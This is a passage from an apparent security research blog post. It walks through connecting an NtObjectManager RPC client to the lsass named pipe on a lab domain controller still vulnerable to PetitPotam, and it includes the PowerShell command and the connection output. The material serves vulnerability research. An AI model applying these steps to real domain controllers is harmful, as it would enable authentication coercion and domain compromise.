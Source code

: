 ![EfsRpcEncryptFileSrv_Downlevel](/assets/img/2022-06-23-from-ntobjectmanager-to-petitpotam/EfsRpcEncryptFileSrv_Downlevel-decomp.png){: .shadow }_EfsRpcEncryptFileSrv_Downlevel Decompliation from Ghidra_

### All Your RPC are belong to NtObjectManager
OK, just to see this work end to end, I setup a Server 2019 domain controller and updated original `efslsaext.dll` *10.0.17763.1* to *10.0.17763.2686*. This version is still vulnerable to *PetitPotam*. I had to create a domain user account to match that of my client to make sure my *NtObjectManager* dynamic client could still connect to the remote pipe despite the [hiccup](#ntobjectmanager-cheats-with-pipes).

And finally... 

```powershell
PS C:\Users\testguy> Connect-RpcClient -Client $client -StringBinding "ncacn_np:192.168.0.20[\\pipe\\lsass]" -AuthenticationLevel PacketPrivacy -AuthenticationType WinNT -Credentials $(Get-LsaCredential -UserName "testguy" -Domain "domain" -Password "password")

PS C:\Users\testguy\> $client

New              : _Constructors
NewArray         : _Array_Constructors
Connected        : True
Endpoint         : \??\UNC\192.168.0.20\pipe\lsass
ProtocolSequence : ncacn_np
ObjectUuid       : 00000000-0000-0000-0000-000000000000
InterfaceId      : c681d488-d850-11d0-8c52-00c04fd90f7e
InterfaceVersion : 1.0
Transport        : NtApiDotNet.Win32.Rpc.Transport.RpcNamedPipeClientTransport
```
